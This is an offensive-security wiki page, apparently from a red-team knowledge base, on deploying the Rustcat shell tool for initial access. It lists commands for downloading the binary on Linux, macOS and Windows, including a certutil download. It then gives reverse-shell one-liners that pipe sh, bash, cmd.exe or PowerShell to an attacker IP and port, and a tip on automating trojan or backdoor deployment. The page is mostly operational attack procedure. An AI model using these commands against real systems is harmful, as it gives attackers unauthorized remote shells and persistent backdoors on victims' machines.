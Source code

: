 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - cross-platform
  - rustcat
---
```

# Rustcat

## 01 - Download Pre-compiled Payload

> [!TIP]
> You can make an automated script to deploy a trojan horse or backdoor during the initial access and maintaining access.

### 1.1 - Linux

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64
```

### 1.2 - OSX

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64
```

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64
```

### 1.3 - Windows

```
C:\> certutil.exe -urlcache -split -f https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe rcat.exe

C:\> curl.exe -o rcat.exe https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe
```

```
PS C:\> Invoke-WebRequest -Uri https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe -OutFile rcat.exe
```

## 02 - Reverse Shell

```
$ ./rcat c -s </bin/sh | /bin/bash> <attacker_IP> <attacker_PORT>
```

```
C:\> .\rcat.exe c -s <cmd.exe | powershell.exe> <attacker_IP> <attacker_PORT>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Shell Handler/Cross Platform/Manual/Netcat Variants/Rustcat]]